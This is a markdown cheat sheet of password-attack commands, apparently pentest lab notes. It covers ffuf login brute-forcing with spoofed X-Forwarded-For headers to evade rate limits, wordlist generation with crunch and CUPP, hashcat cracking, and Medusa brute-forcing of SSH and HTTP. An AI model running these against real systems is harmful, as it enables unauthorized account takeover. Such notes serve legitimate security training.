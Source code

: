 ##### Bypass protection
```bash
for i in {1..10000}; do echo "$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256))"; done > random_ips.txt
```

```bash
ffuf -w random_ips.txt:IP -H 'X-Forwareded-For: IP'
```

#### Basic usage
````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````

#### Default passwords:
- [https://cirt.net/passwords](https://cirt.net/passwords)
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

https://wiki.skullsecurity.org/index.php?title=Passwords

#### Generate passwords:

`crunch 8 8 0123456789abcdefABCDEF -o crunch.txt` the file generated is 459 GB and contains 54875873536 words.

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:  

@ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space

`user@thm$  crunch 6 6 -t pass%%`
           
Crunch will now generate the following amount of data: 700 bytes 0 MB 0 GB 0 TB 0 PB Crunch will now generate the following number of lines: 100 pass00 pass01 pass02 pass03`


### Username anarchy
```shell
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy

./username-anarchy Jane Smith > jane_smith_usernames.txt
```

### CUPP - Common User Passwords Profiler
Generates passwords based on personal info (name, nickname, birthday, etc.)
```shell
sudo apt install cupp -y

cupp -i
```



detect hash type
`λ kali ~ → hashid 8d6e34f987851aa599257d3831a1af040886842f`


dict based attack on sha-1
`λ kali ~ → hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`

#### Medusa

```shell
 medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

```shell-session
la1n23@htb[/htb]$ medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

 Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
```shell
medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
